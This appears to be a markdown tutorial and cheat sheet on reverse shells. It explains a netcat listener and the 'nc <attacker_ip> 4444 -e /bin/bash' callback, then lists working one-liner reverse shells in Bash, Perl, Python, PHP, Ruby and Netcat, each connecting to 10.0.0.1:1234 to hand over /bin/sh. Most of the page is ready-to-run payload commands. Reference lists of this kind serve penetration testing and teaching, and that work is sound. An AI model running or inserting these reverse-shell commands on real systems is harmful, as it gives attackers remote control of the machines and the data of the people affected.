 # Reverse Shell

### Explanation
A reverse shell is a type of shell session initiated by a remote attacker to gain control of a target system. In a typical client-server model, the client connects to the server to request services or resources. However, in the case of a reverse shell, the roles are reversed: the target system (the server) connects back to the attacker's system (the client) to establish a shell session.

#### Example

##### Attacker's System Setup
First, ***the attacker*** sets up a listener using Netcat on a specific port. This listener will wait for connections from the target system.

```nc -lvp 4444```

- **l**: Listen mode, for incoming connections.
- **v**: Verbose mode, to display detailed information.
- **p 4444**: Specifies the port number to listen on (in this example, port 4444).  

##### Target System Execution

On the ***target system***, the attacker somehow delivers and executes a payload (for example, a shell script or executable) that connects back to the attacker's system. This payload could be delivered through various means, such as exploiting vulnerabilities, social engineering, or other methods.

Assuming the target system has Netcat installed, the attacker can execute the following command on the target system to establish a reverse shell connection:

```nc <attacker_ip> 4444 -e /bin/bash```  

- **<attacker_ip>**: Replace this with the IP address of the attacker's system.
- **-e /bin/bash**: Specifies that the shell (/bin/bash) should be executed upon connection.

##### Shell Session

Once the payload is executed on the target system, it initiates a connection back to the attacker's system. The attacker's Netcat listener then receives this connection and provides a shell session, allowing the attacker to execute commands on the target system.

```
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [target_ip] 12345 received!
$ 
```

### Cheat-Sheet

##### Bash shell

1: ```nc -lvp 1234```
2: ```bash -i >& /dev/tcp/10.0.0.1/1234 0>&1```  

##### Perl shell

1: ```nc -lvp 1234```
2: ```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```  

##### Python shell

1: ```nc -lvp 1234```
2: ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``` 

##### PHP shell

1: ```nc -lvp 1234```
2: ```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'``` 

##### Ruby shell

1: ```nc -lvp 1234```
2: ```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'``` 

##### Netcat shell

1: ```nc -lvp 1234```
2: ```nc -e /bin/sh 10.0.0.1 1234``` 

